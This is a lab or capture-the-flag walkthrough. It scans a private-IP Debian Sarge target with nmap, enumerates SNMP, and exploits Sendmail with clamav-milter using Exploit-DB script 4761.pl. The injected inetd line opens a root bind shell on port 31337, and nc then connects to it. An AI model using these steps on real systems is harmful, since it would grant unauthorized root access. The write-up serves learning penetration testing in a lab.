

Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.124.42
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-14 11:57 IST
Nmap scan report for 192.168.124.42
Host is up (0.063s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.30 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,25,80,139,199,445,60000 192.168.124.42
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-14 12:00 IST
Nmap scan report for 192.168.124.42
Host is up (0.062s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.45.166], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
|_http-title: Ph33r
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-02-14T06:30:57-05:00
|_clock-skew: mean: 7h29m59s, deviation: 3h32m08s, median: 4h59m58s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.38 seconds
```

**SNMP**
SNMP is running on Port 199. `snmp-check` reveals some running processes on the target system and this is the most promising of enumeration results so far:
```sh
snmp-check 192.168.124.42
```


We can see a process running called: `clamav-milter`

We can also see the process sendmail-mta is running and “accepting connections”. We know from our previous enumeration that Sendmail is a running service on Port 25.

## Exploit

There are exploits associated with clamav but in this case we can see one that’s associated with `clamav-milter` & `Sendmail`. Sendmail, from our nmap enum is running on Port 25 @ `version 8.13.4`.


Use the command searchsploit -m to transfer the script to your current directory.
```sh
searchsploit -m 4761.pl
```


Then the perl script.
The perl script exploit:

1. Connects to the target at Port 25
2. Simulates an SMTP conversation
3. Tricks Sendmail into **executing a shell command (**`echo '31337 stream tcp nowait root /bin/sh -i'`**)** which appends the line to `/etc/inetd.conf`
4. That line will setup the backdoor shell on Port 31337
5. The `inetd` daemon session is restarted which will activate the backdoor, and the SMTP session thereafter is closed.

The script, according to its exploit page description, suggests that a backdoor is created on port 31337. It is important to know this when running an exploit script for an RCE because you’re either connecting back to a listening port on your own machine, or in this case, you’re opening a connection on a certain port remotely on the target machine.

Execute the perl scipt
```sh
perl 4761.pl 192.168.124.42
```


Run the nc on opened port i.e 31337 (As this is a bind shell we are opening port on target machine using exploit )
```sh
nc -nv 192.168.124.42 31337
```


